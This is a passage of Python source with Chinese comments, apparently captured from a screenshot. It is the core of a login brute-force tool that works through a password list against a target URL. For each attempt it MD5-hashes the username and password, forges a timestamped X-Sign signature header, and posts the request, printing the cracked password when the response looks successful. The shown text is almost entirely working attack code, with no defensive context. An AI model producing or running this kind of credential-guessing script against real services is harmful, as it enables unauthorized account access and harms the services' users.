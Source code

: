 ```python
        'Connection': 'close'
    }
    
    # 计算用户名的MD5值
    md5_username = md5(username)
    
    # 开始爆破
    total = len(passwords)
    print(f"开始爆破，目标URL: {target_url}，用户: {username}")
    
    for i, password in enumerate(passwords, 1):
        try:
            # 生成当前时间戳（毫秒级）
            timestamp = str(int(time.time() * 1000))
            
            # 生成签名
            sign = generate_sign(username, password, timestamp, secret_key)
            
            # 准备请求数据
            data = {
                'username': md5_username,
                'password': md5(password),
                'timestamp': timestamp
            }
            
            # 添加签名到请求头
            headers['X-Sign'] = sign
            
            # 发送请求
            response = requests.post(target_url, headers=headers, data=data, timeout=10)
            
            # 显示进度
            sys.stdout.write(f"\r进度: {i}/{total} - 正在尝试: {password}")
            sys.stdout.flush()
            
            # 检查响应
            if response.status_code == 200:
                try:
                    json_data = response.json()
                    if json_data.get('code') == 200:  # 根据实际情况调整判断条件
                        print(f"\n\n爆破成功！用户名: {username}，密码: {password}")
                        print(f"MD5(用户名): {md5_username}")
                        print(f"MD5(密码): {md5(password)}")
                        print(f"时间戳: {timestamp}")
                        print(f"签名: {sign}")
                        print(f"响应内容: {response.text}")
                        return password
                except:
                    # 如果响应不是JSON格式，检查响应文本中是否包含成功标志
                    if "success" in response.text.lower() or "欢迎" in response.text:
                        print(f"\n\n爆破成功！用户名: {username}，密码: {password}")
                        print(f"MD5(用户名): {md5_username}")
                        print(f"MD5(密码): {md5(password)}")
                        print(f"时间戳: {timestamp}")
                        print(f"签名: {sign}")
                        print(f"响应内容: {response.text}")
                        return password
            
            # 防止请求过快
            time.sleep(0.1)
            
        except Exception as e:
            print(f"\n请求异常: {e}，继续尝试下一个密码...")
```